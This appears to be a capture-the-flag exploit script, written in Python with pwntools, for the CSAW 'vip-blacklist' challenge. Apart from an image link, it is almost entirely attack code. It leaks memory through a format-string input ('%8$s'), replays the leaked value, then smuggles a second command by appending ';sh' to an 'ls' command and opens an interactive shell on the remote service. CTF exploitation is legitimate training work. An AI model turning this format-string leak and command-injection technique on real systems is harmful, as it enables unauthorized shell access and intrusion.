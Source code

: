 ```python

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

#io = start()
io = remote('vip-blacklist.ctf.csaw.io', 9999)
#gdb.attach(io)

io.recvuntil(b"ls")
io.sendline(b"%8$s")
io.recvuntil(b": ")
leak = io.recv(10)
print(leak)
io.recvuntil(b"ls")
io.sendline(leak)
#io.interactive()

io.recvuntil(b"ls")
command = 'ls /'.encode()
payload = b'queue\x00clear' + b'\x00' 
payload += b'exit' + b'\x00' * 2
# Have 3 bytes of free space to append to end of "ls" command
# each command must have length less than 6
payload += b'ls' + b';sh'

io.sendline(payload)

io.interactive()
```
![image](https://github.com/user-attachments/assets/c9b91359-2b7f-4291-ba69-52f5a5afb866)



